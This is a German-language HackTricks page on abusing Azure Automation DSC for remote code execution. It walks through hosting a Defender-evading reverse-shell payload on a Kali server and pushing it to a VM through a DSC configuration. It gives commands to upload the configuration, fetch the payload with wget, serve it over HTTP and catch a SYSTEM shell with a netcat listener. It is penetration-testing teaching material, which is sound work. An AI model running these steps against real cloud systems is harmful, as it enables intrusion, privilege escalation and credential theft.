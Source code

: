 # Az - State Configuration RCE

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

**Überprüfen Sie den vollständigen Beitrag unter:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Zusammenfassung der Vorbereitung und Schritte der Remote-Server (C2) Infrastruktur

#### Übersicht

Der Prozess umfasst die Einrichtung einer Remote-Server-Infrastruktur, um eine modifizierte Nishang `Invoke-PowerShellTcp.ps1` Payload, genannt `RevPS.ps1`, zu hosten, die darauf ausgelegt ist, Windows Defender zu umgehen. Die Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python HTTP-Server bereitgestellt. Der Vorgang wird in mehreren Schritten ausgeführt:

#### Schritt 1 — Dateien erstellen

* **Benötigte Dateien:** Zwei PowerShell-Skripte sind erforderlich:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC) Datei, die die Payload abruft und ausführt. Sie ist von [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) erhältlich.
2. `push_reverse_shell_config.ps1`: Ein Skript, um die Konfiguration an die VM zu veröffentlichen, verfügbar unter [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfade und Server-/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen

* Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung zum Azure Storage Account vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Speicher-Kontext festlegen & Hochladen

* Die gezippte Konfigurationsdatei wird in einen vordefinierten Azure Storage-Container, azure-pentest, mit dem Set-AzStorageBlobContent-Cmdlet von Azure hochgeladen.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Kali-Box vorbereiten

* Der Kali-Server lädt das RevPS.ps1-Payload aus einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen

* Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an dem angegebenen Ort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten

* Ein Python SimpleHTTPServer wird gestartet, um die Payload zu hosten, zusammen mit einem Netcat-Listener, um eingehende Verbindungen zu erfassen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Die geplante Aufgabe führt die Payload aus und erreicht SYSTEM-Ebene Privilegien.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. Credential Dumping oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zu weiterem Lernen und Kreativität im Bereich Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
